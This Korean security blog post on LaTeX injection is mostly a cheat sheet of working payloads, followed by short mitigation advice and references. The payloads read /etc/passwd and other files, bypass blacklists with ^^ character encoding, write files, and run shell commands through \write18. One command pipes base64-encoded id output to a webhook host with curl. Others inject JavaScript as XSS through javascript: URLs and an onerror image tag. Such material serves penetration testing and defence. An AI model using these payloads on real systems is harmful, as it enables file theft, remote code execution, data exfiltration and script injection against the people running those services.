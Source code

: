 ```yaml
---
layout: post
title: $ \LaTeX $ Injection
subtitle: 2년동안 딱 한번 본 케이스....
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - LaTeX
  - Formula_Injection
sidebar:
---
```

## Intro
$ \LaTeX $ 란 주로 자연과학 혹은 수리 영역 논문에 사용되는 문서 작성 도구의 일종으로 $ \TeX $ 문법을 쉽게 사용하기 위해 만든 메크로 모음집이다.   

스크립트 기능이 강하기 때문에 RCE, XSS 등의 공격이 가능하여 위험도는 매우 높습니다.   
## Detect & Exploit 
### Detect
아래 사진과 같은 수식들이 보인다면 LaTeX 문법을 사용하고 있을 가능성이 큽니다.  
![](/assets/images/posts/2024-12-05-LaTeX-Injection/LaTeXInjection_Exam.png)   
### Exploit
#### Read File
```tex
\input{/etc/passwd}
\include{somefile} # load .tex file (somefile.tex)
```   

```tex
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```   
```tex
\lstinputlisting{/etc/passwd}
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```   

```tex
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

#### Bypass Blacklist 

- ^^41 == A
- ^^7e == ~

```tex
\lstin^^70utlisting{/etc/passwd}
```

#### Write File

```tex
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\write\outfile{Line 2}
\write\outfile{I like trains}
\closeout\outfile
```

#### Command Execution

```tex
\immediate\write18{id > output}
\input{output}
```   

```tex
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```   

```tex
\input|ls|base64
\input{|"/bin/hostname"}
```   

```tex
\immediate/write18{curl https://webhook -X POST -d a=$(id|base64)}
```

#### Cross Site Scripting

```tex
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```   

```tex
\unicode{<img src=1 onerror="<ARBITRARY_JS_CODE>">}
```   
## Security Measures
사용자 입력 값이 LaTeX에 영향이 가지 않도록 하거나, 서비스 특성상
사용자가 스스로 LaTeX 문법을 이용하여 작성해야 한다면, 공격 가능한 패키지들을 포함시키지 않거나, LaTeX 문법을 실행시키는 `\`,`$` 과 같은 특수문자를 필터링해야 합니다.   
## References
[mathjax](https://docs.mathjax.org/en/latest/input/tex/extensions/autoload.html#autoload-options)   
[LaTeX Payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)   
[hahwul](https://www.hahwul.com/cullinan/latex-injection/)   
